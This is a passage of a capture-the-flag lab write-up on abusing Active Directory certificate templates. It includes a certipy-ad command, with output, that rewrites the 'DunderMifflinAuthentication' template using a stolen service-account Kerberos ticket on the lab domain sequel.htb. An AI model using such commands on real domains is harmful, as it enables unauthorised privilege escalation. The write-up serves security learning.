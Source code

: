 <figure><img src="../.gitbook/assets/shadow creds.png" alt=""><figcaption></figcaption></figure>

#### Step 4: Finding vulnerable templates

As easy as it is with automated tools, I chose to go through the templates manually to understand why they're marked vulnerable. Until I found this:&#x20;

<figure><img src="../.gitbook/assets/vuln template.png" alt=""><figcaption></figcaption></figure>

The name is fishy, Allow Enroll for domain admins, enterprise admins and Cert publishers AKA us with the user `ryan`. So this is our target template. `DunderMifflinAuthentication`

#### Step 5: Updating the Template

```bash
KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad template -k -template DunderMifflinAuthentication -dc-ip 10.10.11.51 -target dc01.sequel.htb
	<SNIP>
[*] Updating certificate template 'DunderMifflinAuthentication'
[*] Successfully updated 'DunderMifflinAuthentication'
```
